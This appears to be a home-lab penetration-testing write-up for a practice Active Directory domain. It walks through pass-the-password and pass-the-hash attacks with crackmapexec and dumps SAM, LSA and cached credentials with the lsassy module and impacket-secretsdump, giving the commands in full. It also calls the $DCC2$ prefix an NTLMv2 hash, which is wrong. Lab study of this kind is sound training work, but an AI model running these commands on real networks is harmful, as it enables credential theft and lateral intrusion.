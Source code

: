 Setup win2022 server: 192.168.64.138  
Setup Peterparker: \192.168.64.140  
Setup Frankcastle: 192.168.64.139  
Kali: \192.168.64.129/24  

---

## 🚩 'Pass Attacks' - Pass the Password / Pass the Hash.  

### Pass the Password  
With a SAM dump and cracked hash, we have the ability to push the credentials around with every device that has the ability to recieve and accept the login attempt.  

crackmapexec SMB Password abuse: 

    crackmapexec smb 192.168.64.0/24 -u fcastle -d MARVEL.local -p Password1

![image](https://github.com/user-attachments/assets/025b48ea-6702-4094-ae25-c54168fb1607)
We can see that the username and password has been passed around the network and was successful only on Spiderman and Thepunisher devices. Although there was a succesful authentication on Hyrda-DC, fcastle is not a local admin on that device therefore there is no login. 

---

## 🚩 Pass the Hash  
With a SAM dump containing local Admin credentials (likely gathered during the initial attack stage), we can also pass a local admin account username with hash around the network and observe which devices accept these credentials.

crackmapexec SMB Hash abuse:

    crackmapexec smb 192.168.64.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc --local-auth

![image](https://github.com/user-attachments/assets/13e70253-c999-4110-baf0-1cab4d1841f4)  
Local admin account succesful for Spiderman and Thepunisher  

### Note 1 Information gathering  
**Adding the below flags behind --local-auth:**  
--sam (dumps all local SAM files found)  
--shares (shows all accessbile shares)  
--lsa (local security authority)  

    crackmapexec smb 192.168.64.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc --local-auth --sam

### Note 2 (SMB) Modules  
**crackmapexec smb -L will list out all the modules we can use with SMB by adding -M behind --local-auth:**  
-L  
-M Lsassy  

    crackmapexec smb -L
    crackmapexec smb 192.168.64.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc --local-auth -M lsassy  

### Note 3 crackmapexec database

    root@kali:/home/kali# cmedb
    cmedb (default)(smb) > help
![image](https://github.com/user-attachments/assets/d758e9f9-056b-40b3-ac2e-262eac9cd2b6)  

---

## 🚩 Dumping and Cracking Hashes (Secretsdump) with password
With impacket(secretsdump) we will now use a known account credentials to dump the secrets of the machine to see further information. This can present further SAM dumps, domain admin passwords in clear texts and vulnerabile protocols such as wdigest existing on older machines which could be force / enabled for abuse.  

    impacket-secretsdump MARVEL.local/fcastle:'Password1'@192.168.64.139
    
![image](https://github.com/user-attachments/assets/8fc185f1-06ba-4f4f-bd89-968163496df4)  
SAM hashes to note: Admin, User accounts, DCC

🚩 Dumping and Cracking Hashes (Secretsdump) with hash
Secretsdump can also provide further information of a device in the event the passwords cannot be cracked. 

    /home/kali# impacket-secretsdump administrator@192.168.64.139 -hashes aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc
    
![image](https://github.com/user-attachments/assets/a1c69bd3-1ac7-44be-8bc4-9a43d31fc827)  
In this case we could see an accunt with username Administrator with the $DCC2$ which is usually the prefix for ntlmv2 hashing with the hash we could potentially attempt to crack.
